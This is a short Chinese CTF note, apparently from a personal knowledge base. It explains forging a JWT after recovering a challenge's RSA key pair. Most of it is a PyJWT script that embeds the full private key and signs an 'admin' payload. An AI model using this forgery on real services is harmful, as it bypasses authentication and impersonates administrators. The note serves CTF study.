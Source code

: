 tags:: [[CTFWEB/JWT]], [[CTFWEB/XXE]]

- # 伪造jwt密钥
	- 看到这篇文章，跟着做得到jwt的rsa公钥私钥
		- https://ctftime.org/writeup/30541
	- 写代码伪造jwt
		- ```python
		  import jwt # pip install PyJWT
		  from datetime import datetime, timedelta
		  
		  # RSA 密钥对
		  private_key = """-----BEGIN RSA PRIVATE KEY-----
		  MIICoQIBAAKBgSSlUMfCzg/ysG4ixoi6NKGuWNnvIpZZTRNa045eH2xzzY/ZyRwD
		  ojStMH5wxG6nOVvNAY/ETx2XPPC6J1J//nzC1fANMNCYRa47xIW0RwZBDSABcGnw
		  u3QP2nr7AR0/tZmSClncdwA7RKzlJM8Fs7Zmb502ZMSv0AxMgN5UMh9FCwIDAQAB
		  AoGBC5/r+nCv2+uWXTjL8i6UJtLIfdOssxKbJNiIKLXQh3l8IAAfx1i9ktxYEICW
		  TcGTUkx9gjd+xUwo0KOKjcg3hZc7bEfLkiOsK8dSwsPFEXYQpCE1EFokhkc9Rbiq
		  URC9QIrQjtzf5vdU2usj5ddRGtqtmpXm/ibU1TLPIsy8Y5TJAoGBAP2Mj8b+pnwu
		  SCp0EYh99ogr6jblQlVwySv34UDQarcFjkQoB60SOMZpGCyPr/auhfDIsNvKyXLK
		  S7IBEBFMETWywUx28OGFV7xtGF7RfLWmaKYXy4ML/DfHonV8khZ6h5wpyxPL3Wli
		  uJCSSsjNgXhj4aeGLtRRuySpiXflrdFvAgElAoGBALrhzOO+tJWZQ2XPMVEqjvjl
		  bXfS2WbCf/Theuzb8Zw/AxJncuj1IlXUBpZpvigTkPPd6MXIHV13j/1+3QnyyEiN
		  Hf6vOHLxZq6itrDEtafqJP4vUbigr+GpSqxQChl5bNUE1QMdY3AW7LTarzZ8iq5i
		  6GMi+wdRyp+GOqXd65UPAgERAoGAUjts5pfHSt6T8hfOVcf87eS6qgUqRTlWAGwR
		  tCfrQkb9tT1qRfgSadzlPuJ+QirDqAm80amNcVZdvTDG8NpmckfP/R+oEcphpOUc
		  qSFY4PezPMlyb7DcLcQ0sHttpmztthtkdR+GFFdedBPFOjTQC16qDNGSpbmkepfZ
		  jqta99E=
		  -----END RSA PRIVATE KEY-----"""
		  
		  public_key = """-----BEGIN RSA PUBLIC KEY-----
		  MIGJAoGBJKVQx8LOD/KwbiLGiLo0oa5Y2e8illlNE1rTjl4fbHPNj9nJHAOiNK0w
		  fnDEbqc5W80Bj8RPHZc88LonUn/+fMLV8A0w0JhFrjvEhbRHBkENIAFwafC7dA/a
		  evsBHT+1mZIKWdx3ADtErOUkzwWztmZvnTZkxK/QDEyA3lQyH0ULAgMBAAE=
		  -----END RSA PUBLIC KEY-----
		  """
		  
		  # JWT 负载
		  payload = {
		    "username": "admin"
		  }
		  
		  # 生成 JWT
		  token = jwt.encode(payload, private_key, algorithm='RS256')
		  
		  print("Generated JWT:", token)
		  
		  # 验证 JWT
		  try:
		      decoded_payload = jwt.decode(token, public_key, algorithms=['RS256'])
		      print("Decoded payload:", decoded_payload)
		  except jwt.ExpiredSignatureError:
		      print("Token has expired")
		  except jwt.InvalidTokenError:
		      print("Invalid token")
		  